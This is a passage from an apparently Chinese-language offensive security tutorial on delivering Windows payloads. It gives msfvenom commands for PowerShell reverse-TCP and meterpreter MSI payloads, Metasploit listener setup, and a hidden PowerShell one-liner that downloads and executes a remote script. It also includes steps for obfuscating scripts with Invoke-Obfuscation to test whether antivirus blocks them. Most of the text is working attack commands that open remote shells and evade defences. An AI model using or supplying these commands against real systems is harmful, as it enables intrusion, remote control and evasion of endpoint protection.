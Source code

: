 5.PowerShell 运行 bat

```plaintext
msfvenom -p cmd/windows/powershell_reverse_tcp lhost=<Host> lport=<Port> -o attack.bat
```

MSF 监听。

```plaintext
handler -p cmd/windows/powershell_reverse_tcp -H <Host> -P <Port>
```

上线。

```powershell
powershell -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://<Host>/attack.bat'))"
```

6.补充

PowerShell 混淆

[Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)

导入脚本

```plaintext
powershell -ep bypass import-Module ./Invoke-Obfuscation.psd1;Invoke-Obfuscation
```

设置需要混淆的脚本路径。

```plaintext
set scriptpath C:\attack.ps1
```

设置混淆模式。

```plaintext
token\all\1
```

输出混淆后脚本。

```plaintext
out mix-attack.ps1
```

尝试执行混淆后脚本看 AV 是否拦截。

```plaintext
powershell -ep bypass -f mix-attack.ps1
```

#### 2.1.7 msiexec

msiexec 用于安装 Windows MSI 程序，常常通过命令行用来批量安装应用。

生成 Payload。

```plaintext
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<Host> lport=<Port> -f msi -o attack.msi
```

MSF 监听。
